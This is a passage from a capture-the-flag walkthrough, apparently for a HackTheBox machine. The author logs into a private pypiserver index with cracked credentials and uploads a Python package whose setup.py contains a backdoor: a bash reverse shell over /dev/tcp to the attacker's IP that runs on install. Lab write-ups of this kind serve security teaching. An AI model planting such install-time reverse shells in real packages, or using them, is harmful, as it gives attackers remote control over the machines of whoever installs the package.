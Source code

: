 We can connect to the package index () basic auth
with the cracked credentials `pypi` / `soufianeelhaoui`.

But no package is indexed yet.

RTFM. Letr's read the [Uploading Packages Remotely](https://pypi.org/project/pypiserver/#uploading-packages-remotely) page
of pypiserver documentation.

The first thing we will need to upload a package is `~/.pypirc`.

```ini
[distutils]
index-servers = local

[local]
repository: http://pypi.sneakycorp.htb:8080/
username: pypi
password: soufianeelhaoui
```

And of course we will need `setup.py` for setuptools.

Let's look at the [Minimal Structure](https://python-packaging.readthedocs.io/en/latest/minimal.html) required:

```
noraj/
    noraj/
        __init__.py
    setup.py
```

`setup.py`

```python
from setuptools import setup

setup(name='noraj',
      version='0.1',
      description='noraj de mon pwnage',
      url='https://pwn.by/noraj',
      author='noraj',
      author_email='noraj@example.com',
      license='MIT',
      packages=['noraj'],
      zip_safe=False)
```

Let's run `python setup.py sdist upload -r local` to package it and upload
it.

Then we can see the package noraj indexed and removed a few seconds later.
Let's add a backdoor in the package.

```python
from setuptools import setup
import os
os.system("echo 'bash -i >&/dev/tcp/10.10.14.174/8080 0>&1' | /bin/bash")

setup(name='noraj',
      version='0.1',
      description='noraj de mon pwnage',
      url='https://pwn.by/noraj',
      author='noraj',
      author_email='noraj@example.com',
      license='MIT',
      packages=['noraj'],
      zip_safe=False)
```
